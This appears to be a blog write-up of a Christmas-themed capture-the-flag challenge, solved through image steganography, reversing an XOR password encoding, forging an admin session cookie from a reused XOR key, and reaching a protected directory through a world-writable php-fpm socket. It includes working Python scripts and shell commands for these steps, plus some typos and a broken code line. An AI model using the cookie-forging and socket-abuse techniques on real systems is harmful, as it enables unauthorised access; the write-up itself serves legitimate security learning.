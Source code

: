 ![Logo](/assets/images/sectalks5-0.jpg)

Last week I've been to the 5th SecTalks London meetup and I'm proud to say I've learnt something that evening and wanted to say Thank you to the creator of the night's challenge - @leigh.  I'll definitely be going again.


BelowLogo write-up 
of my0sjoution. Hopefully by now the details of the challenge are made public so if people are still working on this I won't spoil anyone's fun by publishing this.

## Stage 0
The challenge is Christmas themed and  starts at the North Pole: 178.62.xx.xx/1.html

> 'While taking a well earned break at the Pole Star Tavern, you overhear a couple of the local elves talking about some of the security improvements they've made to Santa's distribution infrastructure this year.
Of particular interest to you is the digitisation of the naughty and nice lists, you know you haven't exactly been on your best behaviour this year, perhaps there is something you can do about that.
You snap out of your daydream to find them picking up the papers they've been glossing over and making for the door. One of them drops something. When nobody is looking you head over and pick it up.
It's a Christmas card with some writing on the front.
The writing looks like it's in some sort of code: 4cf2af119d84f698585ebf494c6ca6321d72eb211d44a49344f4f7393ca73194
There must be some more clues on the card!'

![Christmas card](/assets/images/sectalks5-1.png)

## Stage 1
The hint for this stage for "Simple stego". I've first opened the image in Gimp and noticed there was an alpha channel.  Unfortunately nothing really obvious here. Then I thought about varying colour intensity, a method used to enhance black and white images.

In Gimp it is quite easy to [vary the threshold](https://docs.gimp.org/en/gimp-tool-threshold.html): **Colours -> Threshold**. And TA DA !

![Stego revealed](/assets/images/sectalks5-2.png)

## Stage 2
We have some pseudo-code right here. Basically every character of the password was rotated left by its position and then XOR-ed with 42. So to get the initial password we need to apply the reverse operations: XOR then ROR (rotate right!):
 
```python
import binascii                                                                                                                                                                                                                          
 
# Rotate right: 0b1001 --> 0b1100
ror = lambda val, r_bits, max_bits: \
    ((val & (2**max_bits-1)) >> r_bits%max_bits) | \
(val << (max_bits-(r_bits%max_bits)) & (2**max_bits-1))
 
p = "4cf2af119d84f698585ebf494c6ca6321d72eb211d44a49344f4f7393ca73194"
v = binascii.unhexlify(p)
 
print [ ord(v[i]) for i in range(len(v))]
 
 
print "".join([ chr(ror(ord(v[i])^42,i,8)) for i in range(len(v))])
```

Running this script we get the credentials for the next stage, accessible at 178.62.xx.xx: **flag{user:elf2207,pass:snow\*\*\*}**

## Stage 3
Nothing interesting after logging in, just 2 list of names randomly changing:

![Lists](/assets/images/sectalks5-3.png)

But there is a cookie, whose value is:

*ccYKPh4W%2BAEcJGLVIbhReh3q3cRXEARRll0DKGEkdNf%2BsWA%3D*

After URL-decoding it, we get a nice Base64 string:
*ccYKPh4W+AEcJGLVIbhReh3q3cRXEARRll0DKGEkdNf+sWA=*

Nothing obvious straight-away. But it becomes interesting if we corrupt the base64 data by removing 2 characters from the end for example. There is an error message displayed:

Corrupted session data: **_{"user":"elf2207","is_admin":fals_**

Probably we removed the last letter 'e' from the encrypted version of the cookie, that's why the error. By comparing the lengths of the decoded base64 and error message, we see they are the same. So the guess is that the session data is encrypted with a sort of one-time-pad. By now you already know what's coming next :sunglasses:

I've XOR-ed the decoded data with the plain-text message to get the key, then used the key to encrypt a new session data, containing the the value true for the **is_admin** property.

```python
import base64                                                                                                                                                                                                                            
 
pt = '{"user":"elf2207","is_admin":false}'
print "[*] Decoded len: ", len(pt)
 
c = base64.b64decode("ccYKPh4W+AEcJGLVIbhReh3q3cRXEARRll0DKGEkdNf+sWA=")
print "[*] Decoded cookie len: ", len(c)
 
# Probably XORed with long one-time-pad. Get the key :D
k = [ord(a) ^ ord(b) for a,b in zip(pt, c)]
print "[*] XOR key: ", k
kStr = "".join([chr(n) for n in k])
 
# Encode desired cookie
pt2 = '{"user":"elf2207","is_admin":true}
c2 = [ord(a) ^ ord(b) for a,b in zip(pt2,

kStr[:len(pt2)])]
print "Admin cookie (to be url-encoded): ", base64.b64encode("".join([chr(n) for n in c2]))
 
 
# Test
c3 = base64.b64decode("ccYKPh4W+AEcJGLVIbhReh3q3cRXEARRll0DKGE2Z87oqQ==")
pt3 = [ord(a) ^ ord(b) for a,b in zip(kStr, c3)]
print "[*] Decoded test cookie: ", "".join([chr(n) for n in pt3])
```

## Stage 4
Now we're in!

>After poking around for a while you realise that the system is fundamentally broken, and even admins cannot edit the naughty and nice lists!
Determined to exploit the system you press on, and discover that the elf has SSH access to the system, with the credentials "elf2207" and the password "snow***"'

Before exploiting  anything we need to understand some concepts. The machine is a Debian 8 system:

```bash
elf2207@grot0:~$ cat /etc/os-release
PRETTY_NAME="Debian GNU/Linux 8 (jessie)"
NAME="Debian GNU/Linux"
VERSION_ID="8"
VERSION="8 (jessie)"
ID=debian
HOME_URL="http://www.debian.org/"
SUPPORT_URL="http://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
elf2207@grot0:~$ uname -a
Linux grot0 3.16.0-4-amd64 #1 SMP Debian 3.16.39-1 (2016-12-30) x86_64 GNU/Linux
elf2207@grot0:~$ 
```

[Nginx](https://en.wikipedia.org/wiki/Nginx) web server is running, and by looking in the configuration files we see that it will pass [FastCGI](https://en.wikipedia.org/wiki/FastCGI) requests through a pipe, which will be executed by php-fm.

```bashlocation ~ ^/index.php$ {
        fastcgi_param  SCRIPT_FILENAME    /home/webuser/index.php;
        fastcgi_param  REQUEST_METHOD     $request_method;
        fastcgi_param  REQUEST_URI        $request_uri;
 
        fastcgi_pass unix:/var/run/php-fpm.sock;
}
```

 Going back to the login message, I remembered there was something about /home/webuser directory:
 
 ```bash
 $ cat /etc/motd
 
This system is poorly configured. You figure that the data you want must be in the /home/webuser directory.
```

Unfortunately we don't have read permissions to that  folder:
```
drwxr-x---  3 webuser webuser 4096 Jan 26 20:30 webuser
```

But someone else has - php-fm. To understand a bit more what's happening, Nginx is sending requests to the socket file defined in sites-available configuration file and php-fpm is picking them up and executing them:

**_Browser -> nginx -> (FastCGI) -> PHP-FPM _**

The configuration file for php-fm is readable at /usr/local/etc/php-fpm.d/www.conf. Remember the Message of the Day mentioned a _poorly configured_ system. The culprit is actually in the **insecure permissions for the socket used by nginx** to send commands to php-fm:

```
listen = /var/run/php-fpm.sock
listen.mode = 0666
```

This makes the socket world writeable! In fact it  should be readable/writeable only by the nginx user. So we can actually send commands to php-fm ourselves, that is if we first find out how to communicate with it.

```bash
REQUEST_METHOD=GET SCRIPT_FILENAME= /home/elf2207/hello.php cgi-fcgi -bind -connect /var/run/php-fpm.sock
 
X-Powered-By: PHP/7.2.0-dev
Content-type: text/html; charset=UTF-8
 
Well that was easy wasn't it :)
 
Have a cookie!
```

There are a few minor obstacles here, like not being able to compile stuff on the box (missing GCC) on install apps (no sudo, obviously:) but I'll let you figure out how to overcome them. It shouldn't be too difficult.

## References

**PHP-FM Architecture**
[PHP-FM](https://serversforhackers.com/video/php-fpm-configuration-the-listen-directive)

**Talking to FastCGI Server**
[Directly connecting to PHP-FPM](https://www.thatsgeeky.com/2012/02/directly-connecting-to-php-fpm/)
[Communicate with PHP FastCGI from ruby](http://stackoverflow.com/questions/16561826/communication-with-php-fastcgi-socket-from-ruby)
